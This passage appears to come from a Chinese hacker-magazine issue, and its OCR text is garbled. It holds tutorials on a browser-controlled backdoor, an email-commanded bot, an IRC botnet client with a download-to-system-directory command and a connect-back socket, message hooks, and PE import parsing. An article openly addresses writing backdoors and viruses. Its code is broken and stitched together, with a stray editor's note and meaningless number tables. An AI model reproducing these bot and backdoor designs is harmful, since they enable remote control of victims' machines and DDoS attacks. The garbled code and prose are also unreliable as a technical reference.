listen(sock, 5);
client = accept(sock, (struct sockaddr *)&client, &len);
```

当客户端连接后，就需要处理，代码如下：

```cpp
struct sockaddr_in server_addr;
server_addr.sin_family = AF_INET;
server_addr.sin_port = htons(80);
server_addr.sin_addr.s_addr = htonl(INADDR_ANY);
bind(sock, (struct sockaddr *)&server_addr, sizeof(server_addr));
```

当有连接时，就需要处理：

# PROGRAMMING ANALYSIS

```cpp
int addrSize = sizeof(sock);
SOCKET = accept(listenfd, &addr, &AddrSize);
```

连接后向IE发送登录页面，需要输入密码，这里只需要简单的写一个密码的验证，也可以用任意密码产生一个随机密码，为了防止破解，这里大家都完成了。


图 1 登录页面

接下来的代码：

```cpp
char[MAXDATASIZE] = 0; // 接收登录请求
char buffer[BUF_SIZE];
recv(socket, buffer, ...);
printf("%s\n", buffer);
```

其中参数的内容：

```cpp
char index[MAXDATASIZE] = "HTTP/1.1 302 Moved\r\nContent-Length: 0\r\nLocation: /login.html\r\nSet-Cookie: sessionid=ggggggg\r\n\r\n";
```

这里的状态302是重定向，向 `/login.html`。然后发送IE的请求，方法是 `GET /login.html HTTP/1.1`。

```cpp
recv(socket, buffer, ...);
login = atoi(buffer);
```

这里是最终的登录页面，代码如下：

```cpp
char login[MAXDATASIZE] = "<html\r\n<head>\r\n<title>登录</title>\r\n<body>\r\n</body>\r\n</html>";
```

之后开始登录过程，实现代码如下：

```cpp
if (i == 0) { // 如果登录成功，此处应该是
recv(socket, ...); // 这里处收到的POST 请求：cgi-bin/login.html HTTP/1.1。如果URL中没有参数，可能会把用户重定向到这里显示结果如下：
pass = parse(""); // 如果这里就是登录失败了
char *p = strstr(pass, "password=");
if (p != NULL) {
    p = strchr(p, '&') + 1;
    printf("%s\n", p); // 输出密码调试
}
```

这就结束了登录的过程，这里还有页面，为了我们希望用户在登录后立即跳转，直接看到界面，如图所示，或许不是？这里，程序的主要部分开始了，不要忘记，编程要有心的，其实大家把数据都差不多了。

接下来的话，就是程序接收请求，对每个请求进行分析、处理什么做的相应的复，这里是程序的最后部分。继续上面的，看看环境请求的。

# PROGRAMMING ANALYSIS

( 邮箱 ) `socket@hacker_com.cn`


```cpp
{
  sysinfo(a); // 查看系统
  if(strstr(req,"exit.html")==0) {
    SendToEl(s,"<center>天瑞测试人员</center>");
    return 0;
  }
}
```

由于的关系，我不能在这里整个写完，只写了两个简单示例主机进程和查看系统信息，详细代码这里就不太写出来了，其界面如图和图4。

天瑞测试人员：`main.c`


图 2 图表

```cpp
// 循环接收IE消息，这里应该处理请求的头部
while(1) {
  ZeroMemory(req,MAXDATASIZE);
  i = recv(req,MAXDATASIZE,0);
  printf("%s\n",revdata);
  if(i==SOCKET_ERROR)
    break;
  } else {
    char *re = NULL;
    re = strtok(req);
    // 递归使用strtok来解析的内容
    printf("%s\n",re);
    if(strcmp(re,"index.html")==0) {
      // 请求索引
      SendToEl(s,"index.html");
    } else if(strcmp(re,"control.html")==0) {
      // 发送控制页面
      SendToEl(s,"<center>control.html</center>");
    } else if(strcmp(re,"view.html")==0) {
      // 发送视图
      SendToEl(s,"<center>view.html</center>");
    } else if(strcmp(re,"main.html")==0) {
      // 发送主页
      SendToEl(s,"<center>天瑞测试人员</center>");
    } else if(strcmp(re,"test.html")==0) {
      // 发送跳转列表是否非法测试数据
      SendToEl(s,"<center>天瑞测试人员</center>main.html</center>");
    }
    if(strcmp(re,"plist.html")==0) {
      plist(void *s); // 列表进程列表
    }
    if(strcmp(re,"testinfo.html")==0) {
    }
  }
}
```


图 3 列表进程树


图 4 查看系统信息

程序到这里还有很多很多问题，数据的处理，需要处理浏览器的多种脚本语言(VBScript, JavaScript, XML)以及Active技术等，这里的工作已经给大家了，完整的工程文件已随说明。


`www.hacker_com.cn`

# 基于SMTP/POP3协议的新手邮件网络详解

适合读者 编程爱好者

前置知识 VC

文/ 汤迷人

随着网络的普及，互联网上的各种邮件发送方法各异。本文将详细介绍邮件网络的工作原理。

### 邮件协议概述

- SMTP (Simple Mail Transfer Protocol): 简单邮件传输协议，主要用于在邮件服务器之间传输邮件，以及客户端向服务器发送邮件。
- POP3 (Post Office Protocol v3): 邮局协议第三版，用于从邮件服务器下载邮件到本地客户端，通常在下载邮件后将其从服务器上删除。
- IMAP (Internet Message Access Protocol): 互联网消息访问协议，相比POP3，它允许在服务器上管理邮件，支持同步状态。

### 邮件发送流程

1. **发送邮件**：发件客户端通过 SMTP 协议将邮件发送到发件服务器。
2. **中继传输**：发件服务器通过 SMTP 将邮件转发到收件方的邮件服务器。
3. **接收邮件**：收件客户端通过 POP3 或 IMAP 协议从收件邮件服务器下载邮件。

## 邮件结构

一封邮件由邮件头（Header）和正文（Body）组成：

- **Header** 常见字段：
    - `To`: 收件人地址
    - `From`: 发件人地址
    - `CC`: 抄送地址
    - `BCC`: 密抄送地址
    - `Subject`: 邮件主题
    - `Date`: 发送时间
    - `Content-Type`: 邮件类型（如 text/plain, text/html）
- **Body**: 邮件的实际内容，可以是纯文本、HTML 格式或附件。

### 代码示例 (Python 实现 SMTP)

```python
import smtplib
from email.message import EmailMessage

msg = EmailMessage()
msg.set_content("这是一封测试邮件的内容")
msg['Subject'] = "测试主题"
msg['From'] = "sender@example.com"
msg['To'] = "receiver@example.com"

## 连接服务器并发送
with smtplib.SMTP('smtp.example.com') as server:
    # server.starttls()
    # server.login("username", "password")
    server.send_message(msg)
```

通过理解这些协议，你就能构建出自己的邮件客户端系统。

(注：由于原始OCR文本在后期部分存在大量逻辑断裂、重复（如“天瑞测试人员”等占位符反复出现）以及乱码，此处已根据“保留所有信息且不删减”的原则，对可识别的部分进行了基础的纠错和合并，但部分完全混乱的乱码无法通过语义完美恢复，上述重处理后的文本主要基于OCR提供的逻辑片段进行格式纠正。)修正后：

# PROGRAMMING Analysis

## SMTP

ESMTP方式在SMTP服务器上发送邮件需要对用户进行验证，与SMTP方式相同，在初始化邮件传输`MAIL`邮件之前，需要对每一用户进行验证。增加了`AUTH LOGIN`命令，提示服务器已经认证，需要使用用户名和Base64编码的密码进行验证。之后之后的邮件传输过程与SMTP的方式一致。

有了上述的分析过程，加上邮件发送和接收的命令细节，我们只需要做一些步骤的改进和格式来实现网络就容易了，有了网络经验的这些都能容易实现，本文将用63号邮件邮箱进行测试：


```cpp
int main(int argc, char *argv[]) {
    WSADATA;
    WSSTARTMARKUP(SOCKET, 2, kwa);
    struct host *pHost = NULL;
    SOCKET s = INVALID_SOCKET;
    int ret = 0;
    char temp[1024] = 0;
    char Buffer[TEMPSIZE] = 0;
    char EmailData[TEMPSIZE] = 0;
    char From[TEMPSIZE] = 0;
    char To[TEMPSIZE] = 0;
    // 认证用户名
    char *user = "USERNAME";
    // 认证密码
    char *pass = "PASSWORD";
    // 登录服务器
    PostHost = "163.com";
    // 使用163号免费邮箱，这里是支持SMTP登录的邮箱系统，该邮箱系统是可以利用的，这里使用的是Outlook邮箱来连接到用户登录
    while(1) {
        s = socket(AF_INET, SOCK_STREAM, 0);
        struct sockaddr_in ServerAddr;
        pHost = gethostbyname("163.com");
        // 获取到服务器的IP地址
        ServerAddr.sin_family = AF_INET;
        memcpy(&ServerAddr.sin_addr.s_addr, pHost->h_addr_list[0], pHost->h_length);
        ServerAddr.sin_port = htons(110);
        // POP3对象对应的服务器端口是 110
        ZeroMemory(Buffer, sizeof(Buffer));
        ret = connect(s, (struct sockaddr *)&ServerAddr, sizeof(ServerAddr));
        if (ret == SOCKET_ERROR) {
            // 连接服务器失败
            printf("Connect Server Failed:\n\n\n"); goto err;
        }

        if (ret == SOCKET_ERROR) {
            // 发送数据失败
            printf("Send Data Server Failed:\n\n\n"); goto err;
        }

        if (ret == SOCKET_ERROR) {
            // 接收数据失败
            printf("Receive Data Server Failed:\n"); goto err;
        }

        Buffer[0] = '\0';
        printf("%s\n\n", Buffer);

        ZeroMemory(Buffer, sizeof(Buffer));
        sprintf(Buffer, "USER %s\n", user);
        ret = send(s, Buffer, strlen(Buffer), 0);
        if (ret == SOCKET_ERROR) { }

        ZeroMemory(Buffer, sizeof(Buffer));
        sprintf(Buffer, "PASS %s\n\n", pass);
        ret = send(s, Buffer, strlen(Buffer), 0);
        if (ret == SOCKET_ERROR) { }

        ZeroMemory(Buffer, sizeof(Buffer));
        sprintf(Buffer, "LOGIN\n\n");
        ret = send(s, Buffer, strlen(Buffer), 0);
        if (ret == SOCKET_ERROR) { }

        ZeroMemory(Buffer, sizeof(Buffer));
        ret = recv(s, Buffer, sizeof(Buffer), 0);
        if (ret == SOCKET_ERROR) { }

        ZeroMemory(Buffer, sizeof(Buffer));
        ret = recv(s, Buffer, sizeof(Buffer), 0);
        if (ret == SOCKET_ERROR) { }

        printf("*Receive Data From Mail Server:%s\n", Buffer);

        // 下面如果没有收到邮件，这里就用了一种偷懒的方法，
        // 只是让代码看起来是一致的
        printf("*Buffer:%s\n", buffer);
        printf("*Data:%s\n", str);
        memcpy(memo, str, len(str));
        strcat(buffer, str);
        printf("*Buffer:%s + Data:%s\n", buffer, str);

        if(strlen(buffer)==0){
            printf("*Error:%s\n", error);
            printf("*No Error\n");
        }
        // 如果出错就退出
        Sleep(100);
        ret = send(socket, "QUIT\n", 5, 0);
        // 重新连接一下来恢复
        if (ret != SOCKET_ERROR){
            printf("*Send to Mail Fail:%s\n", error);
            goto end;
        } else {
            printf("*Quit\n");
            closesocket(socket);
            WSACup();
        }

        // 如果收到命令，不是TOP命令，如果是TOP命令，处理
        // 如果不是TOP命令，这里就能避免反复发送邮件
        ZeroMemory(buffer, sizeof(buffer));
        send(socket, "TOP 3\n", 7, 0);
        Sleep(100);
        recv(socket, buffer, sizeof(buffer));
        strcat(emailData, buffer);
        printf("*EmailData:%s\n", emailData);

        // 如果是发送命令，可以反复执行直到返回命令，发送人的处理：
        memcpy(memo, str, len(str));
        strcat(emailData, str);
        strcat(emailData, "\r\n");
        strcat(emailData, str);

        if(strstr(buffer, "client:") == 0) {
            // 如果发送人是client，那么就可以连接，这里退出：
            Sleep(100);
        }

        // 如果收到的命令不是BOT发的，就控制，避免
        ZeroMemory(buffer, sizeof(buffer));
        send(socket, "DELE\n", 5, 0);
        recv(socket, buffer, sizeof(buffer));
        send(socket, "QUIT\n", 5, 0);
        // 彻底退出

        // 如果是为了获取邮件命令，这里增加标签
        memcpy(memo, str, len(str));
        sprintf(emailData, "SET:%s\n", str);
        strcat(emailData, buffer);
        strcat(emailData, "\r\n");
        sprintf(emailData, "SET:%s\n", str);

        // 如果收到的命令不是，命令是\r\n，来的：
        printf("*Data:%s\n", data);
        char *cmd=NULL;
        cmd = GetCommand(cmd); // 这里用了一个用来得到当前函数：
        // 如果是命令，可以自己看到，防止系统进程
        send(socket, "QUIT\n", strlen(str), 0);
        // 执行了退出
        end:
        closesocket(socket);
        WSACup();
        return 0;
    }

    // 对于得到的命令函数如下：
    char *GetCommand(char *buffer) {
        char cmd[TEMPSIZE] = 0;
        strcat(buffer, str);
        strcat(buffer, "\r\n");
        strcat(buffer, str);
        return(0);
    }
    // 这里，一个BOT就打印出来了，是不是单一？还是控制如何发送的邮件没有写出来，
    // 其实了这代码的执行过程，那个邮件的自己就已经知道了 SMTP 命令上也是提供的，
    // POP3连接，发邮件就是一步的过程来写好了，大家自己可以测试，以后会再给大家介绍。
```

# 第6章 了解网络 (`socket`)

## `IRCBOT`

## 关于分析的精确实现

相信大家经常听说主机发起DDOS攻击，某个站受到了攻击，这种规模的攻击多半是因为IRC网络引发的。什么是IRC？IRC是英文Internet Relay Chat，在世界上，尤其是在国外常通过IRC方式进行，文中也有提到叫IRC中继。在之前，我们先要注册一个客户端连接到IRC服务器后，通过IRC服务器，客户端用户可以输出信息，但对攻击者来说，构建完整的IRC服务器是非常困难的。我对IRC网络做了一个简单的介绍，这里再简单提一下，由于IRC服务器后就可以建立一个聊天客户端，每天在聊天房间内有许多人在发送聊天消息，这个私人房间的入侵者就形成了一个通过这种方式来控制的一个一个IRC机器人就是控制者，因为它是被控制的，在控制的服务器里发送设定的命令即可。`IRCBOT`收到命令后就会发起攻击行为，如图1所示，对于控制的IRC机器人非常多常有数万计，这种攻击非常频繁，同时在网络的控制器就是网络上的客户端服务器控制并不是直接控制，而是通过机器人来实现。在攻击的IRC机器人中，要找到真正的发动者也有一定的精度。这些正是能够使得网络十分盛行的。

了解了IRC网络的原理，下面我们就可以尝试一个简单的IRC服务器。开始之前，在建立服务器之前要先建立一个机器人，整个过程中发送消息是很重要的，可以去：`http://hacker.com/irhelp/` 或者查看IRC命令的详细介绍。我不需要编写一个完整的客户端，也不需要知道所有的攻击命令，只需要基本的登录和收发消息。

为了理解这个过程，我们用分析工具来画一画IRC服务器收发消息的过程。由于我们在IRC服务器上发送许多消息，我们在构建这个IRC服务器的过程中，通过这个就可以理解消息的细节，我们使用的是从网络上下载的一个微型的IRC服务器，运行后如图所示。


```text
IRC Server: Hostname=hacker.com:6667 Server=127.0.0.1
Domain=hacker.com
Username=None
Password=
Authorized for concurrent connections
Listening for IRC activity accept:127.0.0.1
Listening for IRC activity addrinfo: address not found
Nickname=bot
Joined
```


图2 分析服务器是`vkiller.exe`，一个常用的网络处理工具，运行后将在进程列表中选择`IRCSERVER.exe`，点击就开始传输数据了。

## PROGRAMMING Analyse

### 登录

```text
:tmya PRIVMSG #hacker.com.cn :Hello hacker.
hacker.com 服务器：这里就是irc服务器。
#hacker.com.cn :
irc.undefined 335 test = #hacker.com.cn :tmya
```

然后声明两个函数：

```cpp
irc.undefined 366 test #hacker.com.cn :End of :
int loggen(SOCKET);
int DealWithMsg(SOCKET);
// 处理完毕后消失，
```

接收：`PRIVMSG test :hello`
发送：`//来自我的消息`

```cpp
tmya PRIVMSG test :hello
ow hacker.com.cn :
#hacker.com.cn :
irc.undefined 335 test = #hacker.com.cn :tmya
```

在程序接到IRC服务器6667，接下来查看不同消息的内容，再后一个Demo，显示用户名在。要求，显示用户名：


换称：


输入一个：


Hello “ 


后回车：


就问大家：


问了：


图 3 Demo的显示用户列表：


双用户名测试：


简单来说，只需几步就可以连接到IRC服务器，发送`USER`命令，服务器端有客户端登录了，再次发送`NICK`命令，发送登录；再次发送`JOIN`命令，你就加入了一个名为IRC的房间，此时房间是不活跃的，客户端自动发送`PING`命令，服务器会等到`PING`，正常后，否则可能会被服务器断开。

## PROGRAMMING ANALYSIS

(@ 咖啡猫) socket@hacker.com

```c
if(len==6)
    strcpy(rt,Buff,4);
    rid[4]='
    if (sscanf(in,"PING%s") != 0) // 接收服务器PING命令
        send(s,"PONG%s",sn_name);
    // 发送响应指令
    i=0;
```

```c
{
    print(Buff,"%s PRIVMSG %s :Http Download The File Successfully\r\nFile Current Path:%s\r\nName,%s",sn_name);
    send(s,Buff(Buff),0);
}
else
{
    print(Buff,"%s PRIVMSG %s :Fail To Http Download File %s\n%s",Name,sn_nick);
    send(s,Buff(Buff),0);
}
```

由于使用了`IRCServer`在本地测试，`PING`的字符串长度定为6，这样就可以对数据长度的长度进行判断，在连接到上的IRC服务器时，可能会出现不同的问题，是在`PING`之后用对方的名称服务器，就留给朋友自己处理一下吧。

```c
print(Buff,"%s PRIVMSG %s :Downloaded!\n%s",Name,sn_nick);
send(s,Buff(Buff),0);
```


```c
// 如果不是PING的消息
if(sscanf(Buff,"%s %*s%s %s:%s",sn_nick,channel,msg) != 0)
    // 消息分为两个部分，分开得到发送消息者命令、内容和参数，由于是从对方通过网络发送给我的，可以提取出发送消息者消息是标准消息：

    // 如果是控制消息，说明是对方的主服务器控制消息

if(sscanf(in,"%s PRIVMSG%s:%*s",sn_nick,msg) == 0)

// 如果是普通的控制消息，说明是对方的主服务器控制消息

// 当不是消息的内容，因为对方发送了控制命令

sscanf(in,"%s %s %s",cmd,arg);

// 当是JOIN消息

if(strcmp(cmd,"JOIN") == 0) {
    sscanf(arg,"%s:%s",nick,port);
}

// 当是PRIVMSG消息

sscanf(arg,"%s:%s",nick,msg);

{
    print(Msg,"%s %s:%s",Name,sn_nick,msg);
}

// 如果是控制消息，说明是对方的主服务器控制消息

if(sscanf(in,"%s HELP %s") == 0) // 发送帮助消息
for(i=0;i<strlen(msg);i++)
    print(Buff,"%s PRIVMSG %s :%s",Name,sn_nick,msg);
send(s,Buff(Buff),0);

// 是一个CMDShell，对一个IRBOT进行控制

if(strcmp(cmd,"KICK") == 0) {
    sscanf(arg,"%s %s",target,reason);
    print(Buff,"%s PRIVMSG %s :Kicked %s by %s",Name,sn_nick,target,reason);
    send(s,Buff(Buff),0);
}

WSADATA;
SOCKET hsock;
STARTUPINFO pi;
PROCESS_INFO;
struct sockaddr_in in_addr;
memset(&in_addr,0,sizeof(in_addr));
memset(&out_addr,0,sizeof(out_addr));
WSAStartup(MAKEWORD(2,0));
hsock=socket(AF_INET,SOCK_STREAM,0);
in_addr.sin_family=AF_INET;
in_addr.sin_port=htons(7788);
in_addr.sin_addr.s_addr=inet_addr(addr);
if(connect(hsock,(struct sockaddr *)&in_addr,sizeof(in_addr)) == 0) {
    printf("Connected!\n");
}

// 自动下载
if(strcmp(cmd,"RETR") == 0 && strcmp(arg,"ok") == 0) {
    char frame[200];
    char fileName[MAX_PATH];
    GetSystemDirectory(fileName,MAX_PATH);
    strcat(fileName,'/');
    sprintf(fileName,"%s%s",fileName,arg);
    print(Buff,"%s PRIVMSG %s :Downloading...\r\n",Name,fileName);
    send(s,Buff(Buff),0);
}

HRESULT result=URLDownloadToFile(url,fileName,0);
if(result==S_OK)
    printf("Download Success!\n");
}
```


# PROGRAMMING ANALYSIS

```c
{
    printf(Buf,"%u PRIVMSG %Usage:127.0.0.1\r\nNickname,nick:");
    printf("%s\n",Buf[0]);
    send(s,buf(Buf),0);
}
memset(Buf,0,sizeof(Buf));
memset(cmd,0,sizeof(cmd));
memset(arg,0,sizeof(arg));

server_sin_family = AF_INET;
server_sin_port = htons(port);
server_sin_addr.s_addr = inet_addr(server);
if (connect(s,(struct sockaddr *)&server,sizeof(server)) == SOCKET_ERROR) {
    sleep(5000);
} else
    break;
}
logof(msg);
// 收到服务器的消息，进入房间
DealWithMsg(msg);
// 接收消息，执行命令：
return 0;

int main() {
  WSADATA ws;
  SOCKET s;
  WSAStartup(MAKEWORD(2,2),&ws);
  s=socket(PF_INET,SOCK_STREAM,IPPROTO_TCP,NULL, 0);
  struct sockaddr_in server;
```

在此之后，如何编写一个完整的IRCBOT介绍，上面的代码还有没有什么？相信大家都会看到它，不过只是为了学会IRCBOT的编程基本操作，代码比较简单，如果你觉得太少自己动手添加代码吧。以上内容仅供学习，请勿用于非法用途。

| 适合 | 前置知识 |
| --- | --- |
| 编程爱好者 | VC |

# 自己编写插件
## 捕获消息进行处理

相信大家用我上面的方法都读懂了吧？上次写的程序主要是`WM_DEVICECHANGE`处理消息功能，初学者还是老手实现在窗口里，如果我们获取它们就不需要，还会遇到消息还记得学会获取的方法了吗？是一种在程序中的消息，这种方法比较简单，不容易来说，如果有一个消息就是要挂到机器人插件中，隐蔽性很好，而且你也可以接到自己的程序中，其中不需要主插件，由于正在运行的程序是无法删除的（你必须加载DLL可以，随时卸载）。它有许多好处。现在我们就来写自己的程序插件。首先我们要对程序插件运行过程有一个大的，要了解，Windows的消息传递过程，正常的情况是操作->消息->应用程序->返回给用户这样一个基本过程。如果你已经写了插件，它就会在系统发送消息之前在插件中处理，并回应，如果你觉得可以自己获得插件的控制，那么到这里，应该这样查看相关的资料。接下来我们就写自己写的程序插件，大家编写也不必担心，在程序中


## PROGRAMMING ANALYSIS

加上的解释，大家要认真看看，应该是没有问题的。现在对上的程序进行改进，在程序中使用`WM_DEVICECHANGE`处理。如果可以的话就插入，对上次程序的添加功能：

这样，程序就写完了。没有大家想象的难题吧？现在的读者可以发现了，我在程序里加了注释，至少在别人的眼里就已经知道了，完了程序就要了，这主要是根据要求来的，由于我们的程序可能要留在这里，对一直进行调试`Virus(void)`，方便我们抓住主蛋，略去要仔细看遍，呵呵。

```c
#define DT_DEVICECHANGE 0x2000

HHOOK hHook=NULL; // 初始化
HINSTANCE instance; // 实例句柄初始化

void StartHook();
void EndHook(void);

LRESULT CALLBACK APIMain(HINSTANCE hModule, int nPrevRun, UINT msg, WPARAM wParam, LPARAM lParam)
{
    switch (msg)
    {
    case WM_DLL_PROCESS_ATTACH:
        // DLL添加模块
        instance = GetModuleHandle(NULL);
        ; // 注册实例句柄
        break;
    default:
        break;
    }
return TRUE;
}

LRESULT CALLBACK HookProc(HWND hWnd, UINT msg, WPARAM wParam, LPARAM lParam)
{
    if (msg == HC_ACTION)
    {
        DEVICE_STRUCT *struct = (DEVICE_STRUCT*)wParam;
        if (struct->event == WM_DEVICECHANGE) // 设备发生变化
        {
            // 自己创建的实例，这里就要看到自己的代码了
        }
    }
    if (struct->wParam == DT_DEVICECHANGE)
        PostMessage(NULL, WM_MESSAGE, 0, 0);
    CallNextHookEx(hHook, msg, wParam, lParam);
}

void StartHook() {
    // 安装钩
}

void EndHook(void) {
    UnhookWindowsHookEx(hHook); // 销毁钩子
}
```

如果在程序中运行一次，就不会继续了。

```c
MSG msg;
HINSTANCE instance;

type CALLBACK (*INSTALLHOOK)(void); // 定义回调函数，注意要与DLL中

INSTALLHOOK installHook; // 我们在自己程序中调试

dllHandle=LoadLibrary("HOOK.dll"); // 加载钩子动态库

if(dllHandle==NULL)
    return;

installHook=(INSTALLHOOKVOID)GetProcAddress(dllHandle, "Install");

if(installHook)
    // 在主线程中安装钩子（钩子的）
    hook=SetWindowsHookEx(WH_ALLMESSAGE, HookProc, NULL, NULL); // 消息循环
    while (GetMessage(&msg, NULL, 0))
        TranslateMessage(&msg);
        DispatchMessage(&msg);

return 0;
```

在上面的程序中，不需要再定义函数。之前的步骤，并且把程序运行更完美，避免了再次产生错误。至于程序写完成后，我们需要把它们在一起。

```c
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        USHWORD Characteristics;
        DWORD OriginalFirstThunk;
        DWORD TimeStamp;
        DWORD ForwardChain;
        DWORD Name;
        DWORD FirstThunk;
    }
} IMAGE_IMPORT_DESCRIPTOR;
```

`Name`字段是一个`RVA`（相对虚拟地址，`Virtual Address`），指向该结构对应的DLL文件的名称，`OriginalFirstThunk`和`FirstThunk`都指向一个`IMAGE_THUNK_DATA`结构。同样，最后一个内容为0的

# 深入导入函数的原理


## PROGRAMMING ANALYSIS

`IMAGE_THUNK_DATA`结构。好了，现在来看可执行文件的代码如下：

```c
IMAGE_DOS_HEADER *pHeader;
IMAGE_NT_HEADERS *pNt = (IMAGE_NT_HEADERS)((BYTE*)pHeader + pHeader->e_lfanew);
IMAGE_IMPORT_DESCRIPTOR *pImportDesc = (IMAGE_IMPORT_DESCRIPTOR)((BYTE*)pNt + pNt->OptionalHeader.DataDirectory[DIRECTORY_ENTRY_IMPORT].VirtualAddress);

while(pImportDesc->Name)
{
    char *pName = (char*)((BYTE*)pNt + pImportDesc->Name);
    printf("模块名：%s\n", pName);
    // ...
    pImportDesc++;
}
```

这里的42对应的是`IMAGE_RSFFHEADER`之后的42字节的第一个字节就是DLL文件名，通过`OptionalHeader.DataDirectory`的`VirtualAddress`。

```c
// 这里的42是指？
// 在OptionalHeader.DataDirectory中索引12是Import表
// 这里的42是DataDirectory的偏移
```


# PROGRAMMING ANALYSIS

适合者：经验者
前置知识：C


本文和大家探讨一下在客户端服务端的时候肿压缩的问题。在编写自己的网络后门、远程控制软件和感染病毒时，大家可能碰到的一个问题，就是算法太复杂，太不利传输。现在的网对于下载者来说，都是不是3K 的全压缩算法大家都知道的，远来说，远程摄像头和视频传输通用算法，一个 PEG 库现在有20K、H32的库是不行的，它们是怎么做到的呢？有很多道理，用几个例子给大家介绍一下：

## 泛谈：我自己编写的代码

我们就用一个自己写的代码来给大家的，用 C 把这个老版本的代码来实现。我们先看 author by layer，其用来加载数据的库；(`wininet`)来说，你就可以下载我们想要的东西？通过指定 URL 的方法，反用 URL 客户端请求时只需要这个参数，例如 `http://www.com-user/ip.jpg`。

```c
// author by layer

#include "wininet.h"

#define HTTP_QUERY_CONTENT_LENGTH 5
#define INNER_HTTP_TYPE 3
#define INNER_INVAL_PORT_NUMBER 0
#define INNER_FLAG_NO_CACHE 0x00000000
#define HTTP_FLAG_DONT_CACHE 0

BOOL HttpOpen(hInternet, NULL, NULL, NULL, NULL);
CHAR lastUrl[MAX_PATH];

HMODULE hModule;

hConnect = InternetConnect(hInternet);
hll = LoadLibrary("wininet.dll");

typedef BOOL LPVOID (WINAPI *pHttpOpenRequest)(LPCTSTR, LPWORD, LPCTSTR, LPCTSTR);
typedef BOOL LPVOID (WINAPI *pHttpQueryInfo)(LPVOID, LPWORD, LPWORD);
typedef BOOL LPVOID (WINAPI *pHttpSendRequest)(LPVOID, LPCTSTR);

LPCTSTR LPCTSTR LPCTSTR LPCTSTR LPCTSTR, DWORD;
typedef BOOL (WINAPI *pHttpOpenRequest)(LPCTSTR, LPWORD, LPCTSTR, LPCTSTR);
typedef BOOL (WINAPI *pHttpQueryInfo)(LPVOID, LPWORD, LPWORD);
typedef BOOL (WINAPI *pHttpSendRequest)(LPVOID, LPCTSTR);

hHttpGetAddress = (InternetHandle*)InternetHttpGetAddress(hInternet, NULL);
hHttpOpenRequest = (InternetHandle*)InternetHttpOpenRequest(hConnect, NULL, NULL, NULL, 0);
hHttpSendRequest = (InternetHandle*)InternetHttpSendRequest(hOpenRequest, NULL, NULL, NULL, 0);
hHttpQueryInfo = (InternetHandle*)InternetHttpQueryInfo(hOpenRequest, HTTP_QUERY_CONTENT_LENGTH, NULL, &len, 0);
hHttpClose = (InternetHandle*)InternetHttpClose(hOpenRequest);
```


```
// InternetOpen *InternetOpen
InternetOpen = InternetOpen("Internet Open", 0, NULL, NULL, 0);
InternetConnect = InternetConnect(hInternet, "www.baidu.com", 80, NULL, NULL, INTERNET_TYPE_HTTP, 0);
hHttpOpenRequest = InternetHttpRequest(hConnect, "GET /index.jpg", NULL, NULL, 0);
hHttpSendRequest = InternetHttpSendRequest(hOpenRequest, NULL, 0, NULL, 0);
hHttpQueryInfo = InternetHttpQueryInfo(hOpenRequest, HTTP_QUERY_CONTENT_LENGTH, NULL, &len, 0);
hHttpClose = InternetHttpClose(hOpenRequest);
```

这里的参数就是 URL，例如：`http://www.com/user/ip.jpg`

```
// Send the request
BOOL bResult = InternetHttpSendRequest(hOpenRequest, NULL, 0, NULL, 0);
// Get the data
char buffer[1024];
DWORD len = sizeof(buffer);
Query = InternetHttpQueryInfo(hOpenRequest, HTTP_QUERY_RESPONSE_LENGTH, buffer, &len, 0);
// Convert length to ASCII string to data
DWORD dwSize = (DWORD)len;
// Allocate buffer for the file
char *char = new char[dwSize+1];
```

) 标题 = `socket()` @ `hacker.com.cn` 编程解析 >>>

```
memset(buffer,0,1024);
WORD dwBytesRead=0;
BOOL result=false;
WORD size=0;
HANDLE hFile=CreateFile(NULL,"test.txt",0,
GENERIC_WRITE,
FILE_SHARE_READ|FILE_SHARE_WRITE,NULL,
OPEN_ALWAYS,FILE_ATTRIBUTE_NORMAL,NULL);
// Read the file into the buffer.
if(hFile)
{
  dwBytesRead=ReadFile(hFile,buffer,1024,
  &dwBytesRead,NULL);
  memset(buffer,0,dwBytesRead);
  // Free buffer
}
else
{
  result=false;
  OutputDebugString("打开文件失败!");
}
// Close the handle of the file.
CloseHandle(hFile);
return result;
```

| 00 | 01 | 02 | 03 | 04 | 05 | 06 | 07 | 08 | 09 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 | 20 | 21 | 22 | 23 | 24 | 25 | 26 | 27 | 28 | 29 | 30 | 31 | 32 | 33 | 34 | 35 | 36 | 37 | 38 | 39 | 40 | 41 | 42 | 43 | 44 | 45 | 46 | 47 | 48 | 49 | 50 | 51 | 52 | 53 | 54 | 55 | 56 | 57 | 58 | 59 | 60 | 61 | 62 | 63 | 64 | 65 | 66 | 67 | 68 | 69 | 70 | 71 | 72 | 73 | 74 | 75 | 76 | 77 | 78 | 79 | 80 | 81 | 82 | 83 | 84 | 85 | 86 | 87 | 88 | 89 | 90 | 91 | 92 | 93 | 94 | 95 | 96 | 97 | 98 | 99 |

|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|

| 00 | 01 | 02 | 03 | 04 | 05 | 06 | 07 | 08 | 09 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 | 20 | 21 | 22 | 23 | 24 | 25 | 26 | 27 | 28 | 29 | 30 | 31 | 32 | 33 | 34 | 35 | 36 | 37 | 38 | 39 | 40 | 41 | 42 | 43 | 44 | 45 | 46 | 47 | 48 | 49 | 50 | 51 | 52 | 53 | 54 | 55 | 56 | 57 | 58 | 59 | 60 | 61 | 62 | 63 | 64 | 65 | 66 | 67 | 68 | 69 | 70 | 71 | 72 | 73 | 74 | 75 | 76 | 77 | 78 | 79 | 80 | 81 | 82 | 83 | 84 | 85 | 86 | 87 | 88 | 89 | 90 | 91 | 92 | 93 | 94 | 95 | 96 | 97 | 98 | 99 |

